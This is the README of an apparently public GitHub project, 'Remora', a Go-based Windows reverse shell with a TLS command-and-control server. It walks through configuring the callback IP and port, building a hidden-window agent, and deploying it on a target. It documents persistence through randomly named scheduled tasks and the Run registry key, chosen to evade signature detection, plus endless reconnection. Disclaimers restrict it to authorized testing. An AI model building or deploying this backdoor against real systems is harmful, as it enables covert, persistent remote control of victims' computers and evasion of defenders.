

# Remora
Remora – A Go-based Windows reverse shell 

[]()
[]()
[]()
[](LICENSE)

> **⚠️ ETHICAL USE ONLY** – Unauthorized access is illegal.  
> Use only on systems you own or have written permission to test.

---

## 📖 What is Remora?

**Remora** is a proof‑of‑concept reverse shell written in Go for Windows.  
It demonstrates:

- **Encrypted C2** over TLS (self‑signed certificates allowed)
- **Resilient reconnection** – exponential backoff + random jitter
- **Persistence** via scheduled task or registry autorun

The name *Remora* comes from the fish that attaches to a host – mirroring the persistence behaviour.

---

## 🔎 Overview



- **C2 Server (`server/`)** – an interactive listener that waits for a single connection, provides a raw‑terminal shell, and handles TLS encryption.
- **Windows shell (`shell/`)** – a small binary that connects back to the server, spawns `cmd.exe`, installs persistence, and automatically reconnects using exponential backoff with random jitter.

Communication is encrypted with TLS using self‑signed certificates. The server takes care of setting the terminal to raw mode, giving you a fully interactive command prompt.

---

## 🧠 How It Works

1. **shell** continuously attempts to connect to the C2 server over TLS (`InsecureSkipVerify: true`).
2. On success, it spawns `cmd.exe`, binds its input/output to the socket, and hides the console window.
3. The first successful connection also triggers persistence (see below).
4. The **server** accepts the connection, reads the agent’s output, and puts your local terminal in raw mode. Every line you type is sent to the agent, and the response is printed with coloured prompts.
5. When the connection drops, the shell waits with an exponential backoff (starting at 5 seconds, capped at 10 minutes) plus random jitter, then retries indefinitely.

### Persistence details

| Method | Command / Registry | Trigger |
|--------|--------------------|---------|
| Primary | `schtasks /create /tn <random> /tr <exe> /sc onlogon /f` | User logon |
| Fallback | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` | User logon (no admin needed) |

Both use randomly generated names to avoid simple signature detection.

---

## ⚙️ Configuration

### Shell

Edit the **shell’s `main.go`** inside `shell/`:

```go
ip   = "192.168.184.152"   // Change this to your C2 server IP
port = "443"              // Change this to your C2 server port
```

### Server
The server prompts you for the listening port at runtime.
It expects cert.pem and key.pem in its working directory (generate them as shown below).

---

## 🛠️ Build & Run

### Requirements

- **Go 1.20+** ([download](https://go.dev/dl/))

## Steps

```powershell
# 1. Clone or download the repo
git clone https://github.com/imightbeakira/Remora.git
cd Remora
```
### 2. Initialize Go module (if not already present)
```powershell
go mod init github.com/imightbeakira/Remora
go mod tidy
```
### 3. Generate TLS certificates
```powershell
cd server
openssl req -x509 -newkey rsa:2048 -nodes -keyout key.pem -out cert.pem -days 365 -subj "/CN=localhost"
```
### 4. run the server
```powershell
cd server
go run main.go
```
### 5. Build the shell (Windows target)
```powershell
cd shell
GOOS=windows GOARCH=amd64 go build -ldflags="-H windowsgui" -o shell.exe main.go
```
---

## 📡 Usage

### Start the C2 server
```powershell
cd server
go run main.go
```
### Deploy the agent
Execute shell.exe on the target Windows system. Once it connects, the server prints:

---

> For authorized research, training, and defensive analysis only.  
> Do not use on systems you do not own or explicitly have permission to test.
